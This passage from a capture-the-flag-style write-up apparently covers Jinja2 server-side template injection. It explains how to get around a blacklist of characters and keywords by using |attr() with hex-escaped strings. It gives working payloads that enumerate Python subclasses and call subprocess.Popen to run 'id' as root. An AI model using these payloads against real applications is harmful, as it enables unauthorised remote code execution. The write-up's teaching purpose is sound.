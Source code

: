 Reading around this means we're likely dealing with a templating engine called `Jina2`. Now on to exploitation. 

#### Exploitation Hurdles - Blocked Characters

Before we go too far though, we run into a problem. The server has banned multiple useful characters necessary for the exploitation to be easy. In testing we found at least these characters and words were banned:

- `[` and `]`
- `_`
- `.`
- `self`
- `shell`
- and several others...

This means we need workarounds. Fortunately the back end language of the templating engine is Python and Python has well documented filter bypass methods. I found [this article](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) about the `|attr()`technique. This allows you to reference attributes of an object by string. Since python will decode hex encoded strings automatically, we can provide strings like `\x5f` in place of `_` and use `|attr('\x5f\x5fclass\x5f\x5f')` to say, access the `__class__` attribute on an object. 

We can string large lengths of these together to access important classes and methods that are already imported. For example, this payload in the `name` field will list a large number of imported subclasses:

`{% raw %}{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}{% endraw %}`

Most importantly we want to find the `subprocess.Popen` method and use it to execute commands. If we inspect closely and count the index from the start, we see there in the list at index 360 is `subprocess.Popen`. We need that 360 number for the next step.

#### Listing Subclasses -> RCE...

Since we found the index of `subprocess.Popen` we can call it directly, the payload below describes how.

````python
{% raw %}{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('id',stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}{% endraw %}
````

We're invoking the 360'th item in the list of subclasses which is `subprocess.Popen` with a string argument.  We're calling the communicate method and getitem on the 0th returned index item. This gives us the following:

`Dear b'uid=0(root) gid=0(root) groups=0(root)\n', we have received your message`

Nice :D

Unfortunately, initially I was stuck here though because of the filter of `[` and `]` characters. As well as the filter of `shell`keyword. Without these two things I thought we cannot pass arguments to our shell commands.
